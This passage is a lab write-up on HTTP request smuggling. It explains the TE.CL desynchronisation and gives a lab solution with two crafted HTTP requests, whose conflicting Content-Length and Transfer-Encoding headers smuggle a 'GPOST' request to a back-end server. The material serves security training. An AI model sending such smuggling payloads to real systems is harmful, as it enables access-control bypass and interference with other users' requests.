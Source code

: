 The second response should say: Unrecognized method GPOST.

## TE.CL vulnerabilities

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

The front-end server processes the *Transfer-Encoding* header, and so treats the message body as using chunked encoding. It processes the first chunk, which is stated to be 8 bytes long, up to the start of the line following *SMUGGLED*. It processes the second chunk, which is stated to be zero length, and so is treated as terminating the request. This request is forwarded on to the back-end server.

The back-end server processes the *Content-Length* header and determines that the request body is 3 bytes long, up to the start of the line following 8. The following bytes, starting with *SMUGGLED*, are left unprocessed, and the back-end server will treat these as being the start of the next request in the sequence.

### HTTP request smuggling, basic TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method *GPOST*.

**Solution**

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

